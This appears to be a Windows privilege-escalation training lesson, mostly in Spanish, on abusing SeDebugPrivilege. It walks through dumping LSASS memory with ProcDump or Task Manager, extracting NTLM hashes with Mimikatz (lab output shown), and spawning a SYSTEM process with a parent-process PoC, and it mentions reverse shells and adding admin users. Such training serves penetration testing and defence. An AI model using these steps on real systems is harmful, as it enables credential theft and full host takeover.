 To run a particular application or service or assist with troubleshooting, a user might be assigned the [SeDebugPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs) instead of adding the account into the administrators group. This privilege can be assigned via local or domain group policy, under `Computer Settings > Windows Settings > Security Settings`. By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structures. This right may be assigned to developers who need to debug new system components as part of their day-to-day job. This user right should be given out sparingly because any account that is assigned it will have access to critical operating system components.

Durante una prueba de penetración interna, a menudo es útil utilizar sitios web como LinkedIn para recopilar información sobre posibles usuarios a los que apuntar. Supongamos que estamos, por ejemplo, recuperando muchos hashes de contraseña NTLMv2 utilizando `Responder` o `Inveigh`. En ese caso, es posible que queramos enfocar nuestros esfuerzos de crackeo de hashes en posibles cuentas de alto valor, como desarrolladores que tienen más probabilidades de tener este tipo de privilegios asignados a sus cuentas. Un usuario puede no ser un administrador local en un host pero tener derechos que no podemos enumerar remotamente usando una herramienta como BloodHound. Esto valdría la pena comprobar en un entorno donde obtenemos credenciales para varios usuarios y tenemos acceso RDP a uno o más hosts pero sin privilegios adicionales.

![image](https://academy.hackthebox.com/storage/modules/67/debug.png)

Después de iniciar sesión como un usuario asignado al derecho `Debug programs` y abrir un shell elevado, vemos que `SeDebugPrivilege` está listado.

```r
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
```

Podemos usar [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) de la suite [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) para aprovechar este privilegio y volcar la memoria del proceso. Un buen candidato es el proceso Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)), que almacena credenciales de usuario después de que un usuario inicia sesión en un sistema.

```r
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

Esto tiene éxito, y podemos cargar esto en `Mimikatz` usando el comando `sekurlsa::minidump`. Después de emitir los comandos `sekurlsa::logonPasswords`, obtenemos el hash NTLM de la cuenta de administrador local iniciada localmente. Podemos usar esto para realizar un ataque de pass-the-hash para movernos lateralmente si se usa la misma contraseña de administrador local en uno o varios sistemas adicionales (común en grandes organizaciones).

Nota: Siempre es una buena idea escribir "log" antes de ejecutar cualquier comando en "Mimikatz", de esta manera todo el output de comando se colocará en un archivo ".txt". Esto es especialmente útil cuando se vuelcan credenciales de un servidor que puede tener muchos conjuntos de credenciales en memoria.

```r
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP> 

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>

```

Supongamos que no podemos cargar herramientas en el objetivo por cualquier motivo, pero tenemos acceso RDP. En ese caso, podemos tomar un volcado manual de memoria del proceso `LSASS` a través del Administrador de tareas navegando a la pestaña `Details`, eligiendo el proceso `LSASS` y seleccionando `Create dump file`. Después de descargar este archivo de vuelta a nuestro sistema de ataque, podemos procesarlo usando Mimikatz de la misma manera que en el ejemplo anterior.

![image](https://academy.hackthebox.com/storage/modules/67/WPE_taskmgr_lsass.png)

---

## Remote Code Execution as SYSTEM

También podemos aprovechar `SeDebugPrivilege` para [RCE](https://decoder.cloud/2018/02/02/getting-system/). Utilizando esta técnica, podemos elevar nuestros privilegios a SYSTEM lanzando un [child process](https://docs.microsoft.com/en-us/windows/win32/procthread/child-processes) y usando los derechos elevados otorgados a nuestra cuenta a través de `SeDebugPrivilege` para alterar el comportamiento normal del sistema para heredar el token de un [parent process](https://docs.microsoft.com/en-us/windows/win32/procthread/processes-and-threads) e impersonarlo. Si apuntamos a un proceso padre que se ejecuta como SYSTEM (especificando el ID del proceso (o PID) del proceso o programa en ejecución objetivo), entonces podemos elevar nuestros derechos rápidamente. Veamos esto en acción.

Primero, transfiere este [PoC script](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) al sistema objetivo. Luego, simplemente cargamos el script y lo ejecutamos con la siguiente sintaxis `[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`. Tenga en cuenta que debemos agregar un tercer argumento en blanco `""` al final para que el PoC funcione correctamente.

El script PoC ha recibido una actualización. Por favor, visite su repositorio en GitHub y revise su uso. https://github.com/decoder-it/psgetsystem

Primero, abre una consola de PowerShell elevada (clic derecho, ejecutar como administrador y escribe las credenciales para el usuario `jordan`). Luego, escribe `tasklist` para obtener una lista de los procesos en ejecución y los PIDs correspondientes.

```r
PS C:\htb> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

Aquí podemos apuntar a `winlogon.exe` que se ejecuta bajo el PID 612, que sabemos que se ejecuta como SYSTEM en los hosts de Windows.

![image](https://academy.hackthebox.com/storage/modules/67/psgetsys_winlogon.png)

También podríamos usar el cmdlet [Get-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7.2) para obtener el PID de un proceso bien conocido que se ejecuta como SYSTEM (como LSASS) y pasar el PID directamente al script, reduciendo el número de pasos requeridos.

![image](https://academy.hackthebox.com/storage/modules/67/psgetsys_lsass.png)

Existen otras herramientas como [esta](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC) para obtener un shell SYSTEM cuando tenemos `SeDebugPrivilege`. A menudo no tendremos acceso RDP a un host, por lo que tendremos que modificar nuestros PoCs para devolver una reverse shell a nuestro host de ataque como SYSTEM u otro comando, como agregar un usuario administrador. Juega con estos PoCs y mira de qué otras maneras puedes obtener acceso a SYSTEM, especialmente si no tienes una sesión completamente interactiva, como cuando logras inyección de comandos o tienes una web shell o conexión de reverse shell como el usuario con `SeDebugPrivilege`. Ten en cuenta estos ejemplos en caso de que alguna vez te encuentres en una situación en la que volcar LSASS no resulte en credenciales útiles (aunque podemos obtener acceso a SYSTEM solo con el hash NTLM de la máquina, pero eso está fuera del alcance de este módulo) y un shell o RCE como SYSTEM sería beneficioso.